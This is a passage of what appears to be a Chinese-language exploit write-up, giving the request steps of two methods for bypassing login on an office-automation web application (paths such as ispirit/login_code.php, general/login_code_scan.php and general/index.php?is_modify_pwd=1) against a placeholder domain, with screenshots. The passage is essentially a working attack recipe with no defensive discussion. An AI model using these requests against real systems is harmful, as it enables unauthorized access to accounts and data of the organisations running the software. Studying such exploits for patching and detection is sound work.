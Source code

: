 > 第三步：

```
http://www.0-sec.org/general/index.php?is_modify_pwd=1 
```

![image](img/32ce636aa840c23af5f7ce2f211d0433.png)

### 第二种利用方法

> 第一步：

```
http://www.0-sec.org/ispirit/login_code.php 
```

![image](img/9c498be8adc26a8fb3914ba259611037.png)

> 第二步：

```
http://www.0-sec.org/general/login_code_scan.php 
```

![image](img/d9daa7846be80196ed0da94a54e38fd1.png)
